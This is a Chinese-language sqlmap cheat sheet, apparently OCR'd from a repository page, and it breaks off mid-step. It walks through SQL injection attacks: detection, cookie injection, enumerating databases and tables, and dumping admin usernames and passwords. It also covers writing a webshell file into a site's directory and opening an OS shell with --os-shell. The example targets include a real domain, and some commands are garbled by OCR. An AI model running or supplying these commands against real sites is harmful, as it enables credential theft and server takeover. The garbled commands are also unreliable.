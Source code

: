# sqlmap简介
- sqlmap支持五种不同的注入模式：
- 1、基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
- 2、基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语- 句是否执行（即页面返回时间是否增加）来判断。
- 3、基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
- 4、联合查询注入，可以使用union的情况下的注入。
- 5、堆查询注入，可以同时执行多条语句的执行时的注入。

# sqlmap支持的数据库有
- MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM - DB2, SQLite, Firebird, Sybase和SAP MaxDB

# 检测注入
## 基本格式
    sqlmap -u “http://www.vuln.cn/post.php?id=1”
    默认使用level1检测全部数据库类型
    sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3
    指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）
    跟随302跳转
    当注入页面错误的时候，自动跳转到另一个页面的时候需要跟随302，
    当注入错误的时候，先报错再跳转的时候，不需要跟随302。
    目的就是：要追踪到错误信息。

## Cookie注入
    当程序有防get注入的时候，可以使用cookie注入
    sqlmap -u “http://www.baidu.com/shownews.asp” –cookie “id=11” –level 2- （只有level达到2才会检测cookie）
    从post数据包中注入
    可以使用burpsuite或者temperdata等工具来抓取post包
    sqlmap -r “c:\tools\request.txt” -p “username” –dbms mysql    指定- username参数
## 注入成功后
### 获取数据库基本信息
    sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 –dbs
    查询有哪些数据库
    sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D     test –tables
    查询test数据库中有哪些表
    sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D     test -T admin –columns
    查询test数据库中admin表有哪些字段
    sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D     test -T admin -C “username,password” –dump
    dump出字段username与password中的数据
    其他命令参考下面
### 从数据库中搜索字段
    sqlmap -r “c:\tools\request.txt” –dbms mysql -D dedecms –search -C - admin,password
    在dedecms数据库中搜索字段admin或者password。
### 读取与写入文件
    首先找需要网站的物理路径，其次需要有可写或可读权限。
    –file-read=RFILE 从后端的数据库管理系统文件系统读取文件 （物理路径）
    –file-write=WFILE 编辑后端的数据库管理系统文件系统上的本地文件 （mssql - xp_shell）
    –file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
    示例：
    sqlmap -r “c:\request.txt” -p id –dbms mysql –file-dest - “e:\php\htdocs\dvwa\inc\include\1.php” –file-write - “f:\webshell\1112.php”
    使用shell命令：
    sqlmap -r “c:\tools\request.txt” -p id –dms mysql –os-shell
    接下来指定网站可写目录：